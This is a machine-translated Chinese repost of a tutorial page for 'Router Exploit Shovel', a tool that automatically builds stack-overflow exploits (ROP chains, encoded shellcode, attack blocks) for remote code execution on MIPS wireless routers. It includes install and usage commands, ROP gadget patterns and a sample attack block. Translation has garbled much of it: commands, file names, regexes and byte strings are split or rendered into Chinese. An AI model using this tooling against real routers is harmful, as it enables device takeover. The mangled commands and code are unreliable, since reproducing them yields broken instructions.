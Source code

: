 # 路由器利用铲:无线路由器上栈溢出类型的自动应用生成

> 原文：<https://kalilinuxtutorials.com/router-exploit-shovel-automated-application-generation-for-stack-overflow-types-on-wireless-routers/>

[![Router Exploit Shovel : Automated Application Generation for Stack Overflow Types on Wireless Routers](img//24df792990af0ddf704e5a3d8b71c985.png "Router Exploit Shovel : Automated Application Generation for Stack Overflow Types on Wireless Routers")](https://1.bp.blogspot.com/-_aOh6dEcuDI/XY9KDaG7c4I/AAAAAAAACqw/U03aiFYO2OguUB6icly78SPBjP2tEQByACLcBGAsYHQ/s1600/Screenshots.png)

**Router Exploit 铲子**是针对无线路由器上堆栈溢出类型的自动化应用程序生成。这是一个针对无线路由器上堆栈溢出类型的自动化应用程序生成工具。

该工具实现了漏洞利用的关键功能，它可以适应堆栈上数据填充的长度，生成 ROP 链，生成编码的外壳代码，最后将它们组装成一个完整的攻击代码。

用户只需将攻击代码附加到 POC 的溢出位置，即可完成利用远程代码执行的攻击。

该工具支持 MIPSel 和 MIPSeb。在 Ubuntu 16.04 64 位上运行。

**又念——[多洛斯斗篷:自动 802.1x 绕过](https://kalilinuxtutorials.com/dolos-cloak-automated-802-1x-bypass-network-penetration/)**

**安装**

确保你已经安装了 git、python3 和 setuptools。从我们的 Github 下载源代码:

**$ git 克隆 https://github.com/arthastang/Router-Exploit-Shovel.git**

**设置环境并安装依赖项:**

**$ cd 路由器-Exploit-铲子/
$ python3 setup.py 安装**

**用途**

**$ python 3 Router _ Exploit _ slope . py-h

用法:Router _ Exploit _ slope . py【选项】
选项:
-h，–help 显示此帮助信息并退出
-b BINARYFILEPATH，–binary file = binary file path
输入二进制文件路径
–ba = binarybase addr，–binarybase addr = binarybase addr
输入二进制基址，默认=0x00400000
-l**

**例如:**

**$ python 3 Router _ Exploit _ slope . py-b test _ binaries/mipse b-httpd-l test _ binaries/libuClibc-0 . 9 . 30 . so-o 0x 00478584**

**截图**

![](img//09c4313e72d9a44d4c385090eb8fa61f.png)

**代码结构**

**–Router _ Exploit _ slough . py #启动脚本
–databases/
|—ROP _ patterns/# ROP 模式的 YAML 文件
|—shellcodes/# shellcodes 的 YAML 文件
–example/# Nday 漏洞，完整报告和利用代码
–results/
|—ROP _ gadgets/# ROP gadgets 生成结果
|—Attack block . txt #攻击块生成结果
—ropper/#修改 ropper 模块获取所有小工具
–file bytes/。**

**ROP 链生成**

这个工具使用模式来生成 ROP 链。从常见 ROP 开发过程中提取模式。

使用正则表达式匹配来查找可用的小工具以填充链字符串。Base64 编码是为了避免重复字符转义。例如:

链结: (小工具 2)(小工具 1)bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb(睡眠)ccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccc(call _ code)\ x22 \ x44 \ x44 \ x44 \ x42 \ x54 \ x44 \ x44 \ x44 \ x44 \ x44 \ x44 \ x42 \ x54 \ x44 \ x54 \ x51 \ x44 \ x44 \ x44 \ x54 \ x44 \ x54 \ x44 \ x54 \ x44 \*)移动\\$t9\\，\ \ $ s 1；lw \\$ra\\，0x 24 \ \(\ \ $ sp \ \)；lw \\$s1\\，0x 20 \ \(\ \ $ sp \ \)；lw \\$s0\\，0x 1c \ \(\ \ $ sp \ \)；(.*)；Jr \ \ $ T9；再见\\$sp\\、\\$sp\\、0x 28；小工具 2:KC 4 qkwfkzgl 1 ifwkbcbcjhplcm 9 clcaxoybtb3 zlfwkdclcbcjhxoybqyxyifwkddk 7 #小工具 2:(。*)附加\\$a0\\，\\$zero\\，1；移动\\$t9\\，\ \ $ s 1；jar \ \ $ T9；call _ code:KC 4 qkw 1 vdmugxcr 0 ovwsifwkczi 7 igphbhigxcr 0 ots = # call _ code:(。*)移动\\$t9\\，\ \ $ s 2；jar \ \ $ T9；stack _ gadget:KC 4 qkwfkzgl 1 ifwkjclcbcjhnwxcwgmxodsliopbw 92 zsbcjhq 5 xcwgxcrmdsgamfscibjhq 5 ow = = # stack _ gadget:(。*)再见\\$s2\\，\\$sp\\，0x 18；(.*)移动\\$t9\\，\ \ $ s 0；jar \ \ $ T9；

**攻击拦截**

您可以在 results/attackBlocks.txt 中获得生成的攻击块。例如:

攻击块= " aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaayyyy \ x2 a \ xb3 \ x7c \ X60 \ x2 a \ xb2 \ xbd \ xfbbbbbbbbbbbbbbbbbbbbb \ x2 a \ xb3 \ x5c \ xa 0 cccccccc

[Download](https://github.com/arthastang/Router-Exploit-Shovel)